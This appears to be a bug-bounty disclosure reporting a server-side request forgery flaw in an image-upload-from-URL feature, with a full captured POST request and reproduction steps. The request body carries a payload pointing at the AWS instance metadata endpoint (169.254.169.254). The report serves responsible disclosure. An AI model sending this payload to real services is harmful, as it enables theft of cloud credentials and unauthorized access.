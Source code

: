# Upoad image from external URL can lead to SSRF

#### Description

I identified that upload image from URL feature is vulnerable to ssrf, by injecting a specially crafted URL, an attacker can exploit this vulnerability to send arbitrary requests to the backend server, including requests to the AWS metadata endpoint. This could potentially allow an attacker to extract sensitive data, such as AWS access keys, IAM roles, or instance metadata. 

#### POST Request

```
POST /exp.php HTTP/2
Host: example.com
Cookie: _ga=GA1.2.448835302.1663006136; __gads=ID=12650bacbbb407c1-22b25b0367d600ff:T=1663006138:RT=1663006138:S=ALNI_MbIQgv1tetv5sWhtd2l-DWa5gpBAw; _gid=GA1.2.1181242970.1684070063; _gat_UA-129663421-2=1; __gpi=UID=000009c37d6d17f9:T=1663006138:RT=1684070064:S=ALNI_Mbde2euUm1z5T_fwwj9zbyEtdMKrA
Content-Length: 46
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://example.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://example.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

url=http://169.254.169.254/latest/meta-data/
```


#### Steps to reproduce

1. Navigate to the upload image from url feature on your website.
2. Enter the following payload into the URL parameter: http://169.254.169.254/latest/meta-data/
3. Capture the request in burp > Send to Repeater > Submit
4. Observe the response

#### Impact

The SSRF vulnerability through the image upload feature can enable an attacker to bypass authentication and authorization mechanisms and gain unauthorized access to AWS metadata files. This poses a significant risk, as it could lead to unauthorized access to sensitive resources and potentially compromise the entire AWS infrastructure.
